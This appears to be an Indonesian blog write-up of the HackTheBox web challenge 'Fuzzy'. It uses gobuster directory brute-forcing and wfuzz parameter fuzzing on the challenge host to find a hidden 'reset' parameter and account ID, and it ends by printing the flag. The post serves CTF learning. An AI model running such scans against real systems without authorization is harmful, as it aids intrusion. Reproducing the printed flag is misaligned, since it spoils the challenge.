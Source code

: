 ```yaml
---
title: "HTB Web Challenge - Fuzzy"
classes: wide
header:
  teaser: /assets/images/htb-frame.png
search: false
categories: 
  - HackTheBox Challenge
toc: true
toc_label: "Contents"
last_modified_at: 2020-04-12 14:51:00
---
```


## Fuzzy - Web challenge

untuk alamat yang disediakan oleh htb adalah http://docker.hackthebox.eu:31047/ dan menampilkan website seperti yang ditunjukan di bawah.

![fuzzy-web](/assets/images/htb-challenge-web-fuzzy/fuzzy-web.png)

### Directory Scanning menggunakan gobuster

scanning direktori website menggunakan tool seperti gobuster yang sudah ada di sistem operasi kali linux
```
$ gobuster 
Usage:
  gobuster [command]

Available Commands:
  dir         Uses directory/file brutceforcing mode
  dns         Uses DNS subdomain bruteforcing mode
  help        Help about any command
  vhost       Uses VHOST bruteforcing mode

Flags:
  -h, --help              help for gobuster
  -z, --noprogress        Don't display progress
  -o, --output string     Output file to write results to (defaults to stdout)
  -q, --quiet             Don't print the banner and other noise
  -t, --threads int       Number of concurrent threads (default 10)
  -v, --verbose           Verbose output (errors)
  -w, --wordlist string   Path to the wordlist

Use "gobuster [command] --help" for more information about a command.

$ gobuster dir -u http://docker.hackthebox.eu:31047/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 50 -x json,php,html,txt,git
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://docker.hackthebox.eu:31047/
[+] Threads:        50
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     json,php,html,txt,git
[+] Timeout:        10s
===============================================================
2020/04/12 14:02:45 Starting gobuster
===============================================================
/index.html (Status: 200)
/css (Status: 301)
/js (Status: 301)
/api (Status: 301

**snip**
```

beberapa direktori yang didapatkan antara lain, `css`, `js`, dan `api` dan beberapa direktori yang lainnya,namun untuk proses diskip. Setelah melakukan enumeration pada setiap direktori tersebut, fokus target pada direktori `api`, dimana beberapa direktori lainnya hanyalah direktori pendukung komponen website.

selanjutnya, melanjutkan scanning direktori tetap menggunakan tool yang sama, namun ditambah `api` pada target url awal

```
$ gobuster dir -u http://docker.hackthebox.eu:31047/api/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 50 -x json,php,html,txt,git
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://docker.hackthebox.eu:31047/api/
[+] Threads:        50
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     json,php,html,txt,git
[+] Timeout:        10s
===============================================================
2020/04/12 14:16:06 Starting gobuster
===============================================================
/index.html (Status: 200)
/action.php (Status: 200)
```

dari proses scaning direktori yang kedua, ditemukan sebuah file yang menarik yaitu `action.php`, hal ini memungkinkan untuk melakukan exploitasi lebih lanjut. namun ketika ditampilkan pada browser, terlihat bahwa sebuah `action.php` tersebut memiliki parameter yang ingin dieksekusi.

![actionphp_browser](/assets/images/htb-challenge-web-fuzzy/fuzzy-web-actiop_php.png)

### Menggunakan Wfuzz untuk Fuzzing file extension 

umumnya, parameter eksekusi pada browser seperti `action.php?[parameter]=abcde`. Untuk hal ini saya menggunakan tool `wfuzz` untuk prosess `fuzzing` parameter pada `action.php` tersebut.

```
$ wfuzz

Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.4.5 - The Web Fuzzer                         *
*                                                      *
* Version up to 1.4c coded by:                         *
* Christian Martorella (cmartorella@edge-security.com) *
* Carlos del ojo (deepbit@gmail.com)                   *
*                                                      *
* Version 1.4d to 2.4.5 coded by:                      *
* Xavier Mendez (xmendez@edge-security.com)            *
********************************************************

Usage:  wfuzz [options] -z payload,params <url>

        FUZZ, ..., FUZnZ  wherever you put these keywords wfuzz will replace them with the values of the specified payload.
        FUZZ{baseline_value} FUZZ will be replaced by baseline_value. It will be the first request performed and could be used as a base for filtering.


Examples:
        wfuzz -c -z file,users.txt -z file,pass.txt --sc 200 http://www.site.com/log.asp?user=FUZZ&pass=FUZ2Z
        wfuzz -c -z range,1-10 --hc=BBB http://www.site.com/FUZZ{something not there}
        wfuzz --script=robots -z list,robots.txt http://www.webscantest.com/FUZZ

Type wfuzz -h for further information or --help for advanced usage.

$ wfuzz --hh=24 -c -z file,/usr/share/wordlists/dirb/big.txt --hc 403,404 http://docker.hackthebox.eu:31047/api/action.php?FUZZ=abcde

Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.4.5 - The Web Fuzzer                         *
********************************************************

Target: http://docker.hackthebox.eu:31047/api/action.php?FUZZ=abcde
Total requests: 20469

===================================================================
ID           Response   Lines    Word     Chars       Payload                                                                                              
===================================================================

000015356:   200        0 L      5 W      27 Ch       "reset"   
```
paramater yang didapatkan adalah `reset`, sehingga path nya `action.php?reset=[]` ketika di eksekusi terjadi error dan memerlukan `account ID` agar dapat ketahap selanjutnya.

![fuzzy-action-reset](/assets/images/htb-challenge-web-fuzzy/fuzzy-web-action-reset-id.png)

eksekusi yang dilakukan hampir sama, menggunakan `wfuzz`

```
$ wfuzz --hh=27 -c -z file,/usr/share/wordlists/dirb/small.txt --hc 403,404 http://docker.hackthebox.eu:31047/api/action.php?reset=FUZZ

Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.4.5 - The Web Fuzzer                         *
********************************************************

Target: http://docker.hackthebox.eu:31047/api/action.php?reset=FUZZ
Total requests: 959

===================================================================
ID           Response   Lines    Word     Chars       Payload                                                                                              
===================================================================

000000012:   200        0 L      10 W     74 Ch       "20"       
```
didapatkan `20` sebagai account ID, sehingga dapat dieksekusi di browser

![fuzzy-id](/assets/images/htb-challenge-web-fuzzy/fuzzy-id.png)

```
flag: HTB{h0t_fuzz3r}
```

